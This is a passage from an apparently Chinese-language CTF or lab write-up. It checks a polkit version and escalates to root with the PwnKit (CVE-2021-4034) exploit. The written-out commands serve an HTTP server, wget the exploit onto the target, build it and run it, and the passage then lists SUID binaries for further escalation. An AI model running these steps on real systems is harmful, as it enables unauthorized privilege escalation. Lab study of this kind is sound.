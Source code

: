 查看一下版本是否符合我们的漏洞：

```shell
dpkg -l policykit-1
# Desired=Unknown/Install/Remove/Purge/Hold
# | Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
# |/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
# ||/ Name                   Version          Architecture     Description
# +++-======================-================-================-==================================================
# ii  policykit-1            0.105-14.1ubuntu i386             framework for managing administrative policies and
```

可以看到是复符合的，尝试利用一下：

```shell
# Client
# 将文件先下载到客户端上，就压缩包格式的
# 开启简易服务
python3 -m http.server 8888
# Server
wget http://192.168.244.133:8888/CVE20214034.zip
cd CVE20214034
make
# cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
# cc -Wall    cve-2021-4034.c   -o cve-2021-4034
# echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
# mkdir -p GCONV_PATH=.
# cp -f /bin/true GCONV_PATH=./pwnkit.so:.
./cve-2021-4034
```

![image-20240202204919822](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200987.png)

获取 flag！

### 获取并登陆已有的root用户

先看一下是否有可以利用的SUID漏洞：

```shell
find / -perm -u=s -type f 2>/dev/null
# /usr/bin/newuidmap
# /usr/bin/chsh
# /usr/bin/sudo
# /usr/bin/chfn
# /usr/bin/pkexec
# /usr/bin/newgidmap
# /usr/bin/at
# /usr/bin/passwd
# /usr/bin/newgrp
# /usr/bin/gpasswd
# /usr/lib/openssh/ssh-keysign
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/lib/i386-linux-gnu/lxc/lxc-user-nic
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/authbind/helper
# /usr/lib/snapd/snap-confine
# /bin/mount
# /bin/umount
# /bin/ping
# /bin/fusermount
# /bin/ping6
# /bin/su
```